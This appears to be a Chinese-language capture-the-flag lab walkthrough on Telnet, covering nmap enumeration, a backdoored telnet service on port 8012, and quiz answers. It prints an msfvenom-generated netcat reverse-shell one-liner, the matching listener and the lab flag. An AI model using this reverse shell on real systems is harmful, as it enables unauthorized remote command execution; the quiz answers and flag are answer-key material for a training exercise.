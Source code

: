 # 7.常见的网络服务-Telnet

Telnet是一种应用程序协议（`application protocol`  ），它允许您使用telnet客户端连接到托管telnet服务器的远程计算机并在其上执行命令。
Telnet 以明文形式发送所有消息，并且没有特定的安全机制。因此，在许多应用程序和服务中，Telnet 在大多数实现中已被 SSH 取代。
## Telnet 使用

```bash
telnet [ip] [port]
```

>[!NOTE] 注意⚠️
>**telnet 窗口执行命令，需要在命令执行前添加`.RUN`**

:::  details  什么是telnet？
**答案**： `application protocol`  
:::

:::  details   什么慢慢取代了 Telnet？
**答案**： `ssh`  
:::
:::  details   如何连接到端口 23 上 IP 为 10.10.10.3 的 Telnet 服务器？
**答案**： `telnet 10.10.10.3 23`  
:::
:::  details  缺少什么，意味着所有 Telnet 通信都是明文的？
_提示：现代互联网使用什么来安全通信？_
**答案**：`encryption`
:::

## Telnet枚举（Enumerating）

我们已经看到了密钥枚举如何利用配置错误的网络服务。然而，可能微不足以利用的漏洞并不总是突然出现在我们面前。因此，尤其是在列举网络服务时，我们需要彻底使用我们的方法。

让我们以通常使用的方式开始，即端口扫描，以尽可能多地了解有关目标计算机的服务、应用程序、结构和操作系统的信息。使用[NMAP](5.Network_NMAP.md)和标签 `-A` 和 `-p-` 扫描计算机。

- `-A`：将操作系统检测、版本检测、脚本扫描和 Traceroute 合二为一（噪声大）。
- `-p-`：启用所有端口的扫描，而不仅仅是前 1000 个端口。


:::  details  有多少端口在此及其开启？
**答案**：`1`
让我们从使用 Nmap 扫描机器开始：
```bash
sudo nmap -p- 10.10.86.243


Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:43 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
8012/tcp open  unknown
MAC Address: 02:3C:80:9F:77:B3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.55 seconds

```
:::

:::  details  哪个端口是开启的？
**答案**：`8012`
:::
:::  details  这个端口是未分配的，但任然给出了他正在使用的协议类型，是什么协议？
**答案**：`TCP`
:::
:::  details 不用`-p-`参数，扫描结果中有几个端口开启？
**答案**：`0`
:::

**在这里，我们看到通过将 telnet 分配给非标准端口，它不是 nmap 扫描的公共端口列表或前 1000 个端口的一部分。在列举时尝试每个角度很重要，因为您在此处收集的信息将为您的开发阶段提供信息。**



:::  details 根据返回信息，我们认为这个端口可以来干什么？
**答案**：`abackdoor`
:::
:::  details  它会属于谁？
**答案**：`Skidy`
::: 

```bash{10}
sudo nmap  -sV -p8012  10.10.86.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:50 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00019s latency).

PORT     STATE SERVICE VERSION
8012/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.93%I=7%D=7/22%Time=669E559B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
...
```



## Telnet 漏洞利用

Telnet 作为一种协议，由于我们之前讨论的原因，它本身是不安全的。它缺乏加密，因此所有通信都通过明文发送，并且在大多数情况下访问控制不佳。但是，Telnet 客户端和服务器系统存在 CVE，因此在利用时，您可以在以下位置检查这些 CVE：

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)
CVE 是 Common Vulnerabilities and Exposures 的缩写，是公开披露的计算机安全漏洞列表。当有人提到 CVE 时，他们通常是指分配给安全漏洞的 CVE ID 号。
但是，您更有可能发现 telnet 的配置或运行方式存在错误配置，从而允许您利用它。

因此，从我们的枚举阶段，我们知道：
- 此机器上正在运行一个隐藏性很差的 telnet 服务
-  “backdoor”服务本身被标记为 “backdoor”
- 我们可能牵涉到“Skidy”的用户名
使用此信息，让我们尝试访问此 telnet 端口，并将其用作在机器上获得完整反向 shell 的立足点！

#### 连接到 telnet

**什么是反向shell？** 

![](assets/7.network_telnet/file-20241025221302.png)

“shell” 可以简单地描述为一段代码或程序，可用于在设备上执行代码或命令。
反向 shell 是一种 shell，其中目标机器与攻击机器通信。攻击机器有一个侦听端口，它通过该端口接收连接，从而实现代码或命令的执行。

:::  details  登陆telnet，我们收到了什么欢迎信息?  
**答案：**`SKIDY'S BACKDOOR` 

```bash
telnet 10.10.86.243 8012

Trying 10.10.86.243...
Connected to 10.10.86.243.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
::: 

:::  details   尝试运行命令，会有返回信息吗？
**答案：**`N`
```bash
.RUN ls
```
:::  
### 验证是否可以执行命令

 嗯......这很奇怪。让我们检查一下我们键入的内容是否作为系统命令执行。

:::  details  在本地主机上启动tcpdump 侦听器，侦听 `ping`操作的`ICMP`流量：`sudo tcpdump local-ip proto \\icmp -i eth0`Telnet 会话中运行“ping [local IP] -c 1” 看看本地是否能够收到`ping`流量？
**答案：** `Y`
```bash
sudo tcpdump ip proto \\icmp -i eth0  # 本地IP
 .RUN ping -c 1 10.10.33.28   # telnet会话窗口执行命令，记得加`.RUN`
```

:::

太好了！这意味着我们能够执行系统命令，并且能够访问我们的本地计算机。现在让我们来找点乐子吧！

### 生成 reverse_shell

**我们将使用 msfvenom 生成反向 shell 有效负载。这将为我们生成并编码一个 netcat 反向 shell。这是我们的语法：**

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

-  `-p` = 有效载荷类型
- `lhost` = 我们的本地主机 IP 地址
- `lport` = 要侦听的端口
- `R` = 以原始格式导出有效负载


:::  details  用`msfvenom` 生成反向`shell` 的payload，`payload`以哪个单词开头 ？
**答案：**`mkfifo`
   
```bash
msfvenom  -p cmd/unix/reverse_netcat lhost=10.10.33.28  lport=4444 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
``` 
:::
:::: details  成功！flag.txt 的内容是什么？

::: code-group

```bash [本地端口监听]
nc -lvp 4444
```

```bash [远程执行反弹]
.RUN mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```

```bash [flag]
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
:::
::::

